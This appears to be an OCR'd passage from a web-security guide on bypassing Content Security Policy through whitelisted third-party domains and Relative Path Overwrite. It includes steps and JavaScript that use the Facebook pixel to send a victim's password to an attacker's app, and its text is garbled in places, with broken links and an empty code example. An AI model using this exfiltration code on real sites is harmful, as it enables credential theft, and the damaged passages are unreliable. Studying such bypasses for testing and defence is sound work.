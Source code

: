 ```
If you find any of the allowed domains in the CSP of your target, chances are that you might be able to bypass the CSP by registering on the third-party service and, either exfiltrate data to that service or to execute code.

For example, if you find the following CSP:

```
Content-Security-Policy​: default-src 'self’ www.facebook.com;​
```
```
or

```
Content-Security-Policy​: connect-src www.facebook.com;​
```
```
You should be able to exfiltrate data, similarly as it has always be done with [[https://www.humansecurity.com/tech-engineering-blog/exfiltrating-users-private-data-using-google-analytics-to-bypass-csp)/[Google Tag Manager](https://blog.deteact.com/csp-bypass/|Google Analytics]]. In this case, you follow these general steps:

1. Create a Facebook Developer account here.
2. Create a new "Facebook Login" app and select "Website".
3. Go to "Settings -> Basic" and get your "App ID"
4. In the target site you want to exfiltrate data from, you can exfiltrate data by directly using the Facebook SDK gadget "fbq" through a "customEvent" and the data payload.
5. Go to your App "Event Manager" and select the application you created (note the event manager could be found in an URL similar to this: https://www.facebook.com/events\_manager2/list/pixel/\[app-id]/test\_events
6. Select the tab "Test Events" to see the events being sent out by "your" web site.

Then, on the victim side, you execute the following code to initialize the Facebook tracking pixel to point to the attacker's Facebook developer account app-id and issue a custom event like this:

```JavaScript
fbq('init', '1279785999289471');​ // this number should be the App ID of the attacker's Meta/Facebook account
fbq('trackCustom', 'My-Custom-Event',{​
    data: "Leaked user password: '"+document.getElementById('user-password').innerText+"'"​
});
```
```
As for the other seven third-party domains specified in the previous table, there are many other ways you can abuse them. Refer to the previously [[https://sensepost.com/blog/2023/dress-codethe-talk/#bypasses|blog post]] for additional explanations about other third-party abuses.

### Bypass via RPO (Relative Path Overwrite) 

In addition to the aforementioned redirection to bypass path restrictions, there is another technique called Relative Path Overwrite (RPO) that can be used on some servers.

For example, if CSP allows the path `https://example.com/scripts/react/`, it can be bypassed as follows:

```html

```
```
The browser will ultimately load `https://example.com/scripts/angular/angular.js`.

This works because for the browser, you are loading a file named `..%2fangular%2fangular.js` located under `https://example.com/scripts/react/`, which is compliant with CSP.

∑, they will decode it, effectively requesting `https://example.com/scripts/react/../angular/angular.js`, which is equivalent to `https://example.com/scripts/angular/angular.js`.

```